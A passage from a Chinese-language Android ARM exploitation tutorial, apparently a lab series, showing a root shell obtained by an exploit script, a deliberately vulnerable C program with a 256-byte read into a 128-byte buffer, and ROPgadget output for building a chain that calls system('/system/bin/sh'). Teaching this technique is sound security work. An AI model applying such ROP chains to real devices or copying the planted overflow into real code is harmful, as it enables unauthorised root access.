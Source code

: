 执行效果如下：

```
$ python level6.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ /system/bin/id
uid=0(root) gid=0(root) context=u:r:shell:s0

```

0x02 寻找thumb gadgets
=====

下面我们来看第二个程序level7.c：

```
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

char *str="/system/bin/sh";

void callsystem()
{
system("id");
}

void vulnerable_function() {
char buf[128];
read(STDIN_FILENO, buf, 256);
}

int main(int argc, char** argv) {
if (argc==2&&strcmp("passwd",argv[1])==0)
callsystem();
write(STDOUT_FILENO, "Hello, World\n", 13);    
vulnerable_function();
}

```

在这个程序里，我们即使知道密码，也仅仅只能执行”id”这个命令，我们的目标是获取到一个可以使用的shell，也就是执行`system("/system/bin/sh")`。怎么办呢？这里我们就需要来寻找可利用的gadgets，先让r0指向`"/system/bin/sh"`这个字符串的地址，然后再调用system()函数达到我们的目的。

如何寻找gadgets呢？虽然用ida或者objdump也可以进行查找，但比较费时费力，这里我推荐使用ROPGadget。因为level7默认会编译成thumb指令，所以我们也采用thumb模式查找gadgets:

```
$ ROPgadget --binary=./level7 --thumb | grep "ldr r0"
0x00008618 : add r0, pc ; b #0x862e ; ldr r0, [pc, #0x10] ; add r0, pc ; ldr r0, [r0] ; b #0x8634 ; movs r0, #0 ; pop {pc}
0x0000861e : add r0, pc ; ldr r0, [r0] ; b #0x862e ; movs r0, #0 ; pop {pc}
0x0000893e : add r3, sp, #0xc ; movs r1, #0 ; str r3, [sp] ; adds r3, r1, #0 ; bl #0x8916 ; ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
0x000090fe : add r3, sp, #0xc ; str r3, [sp] ; movs r2, #0xc ; adds r3, r1, #0 ; bl #0x8916 ; ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
0x000093ca : add sp, #0x10 ; pop {r4, pc} ; push {r3, lr} ; bl #0x911c ; ldr r0, [r0, #0x48] ; pop {r3, pc}
0x00008826 : add sp, r3 ; pop {r4, r5, r6, r7, pc} ; mov r8, r8 ; stc2 p15, c15, [r4], #-0x3fc ; ldr r0, [r0, #0x44] ; bx lr
……

```
